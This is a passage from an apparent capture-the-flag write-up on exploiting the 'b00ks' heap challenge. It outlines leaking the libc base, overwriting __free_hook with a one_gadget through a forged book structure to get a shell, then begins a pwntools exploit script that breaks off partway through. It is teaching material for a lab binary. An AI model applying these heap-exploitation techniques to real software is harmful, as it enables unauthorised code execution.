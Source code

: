 ![](images/10.png#pic_center)

- Next is to calculate the `libc` base address, `freehook` address, `onegadget` find `gadget` and other operations

![](images/11.png#pic_center)

- Finally, the idea of ​​`getshell` is to first deploy `free_hook` into the description of the forged structure `fake_book1`, and then write `onegadget` into the description of `book2`, and finally `execve('/bin/sh')` when releasing `book2`

```python
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

r = process('./b00ks')
elf = ELF('b00ks')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def create_author(name):
    r.recvuntil(b'Enter author name: ')
    r.sendline(name)

def create_book(name_size, name, description_size, description):
    r.recvuntil(b'>')
```
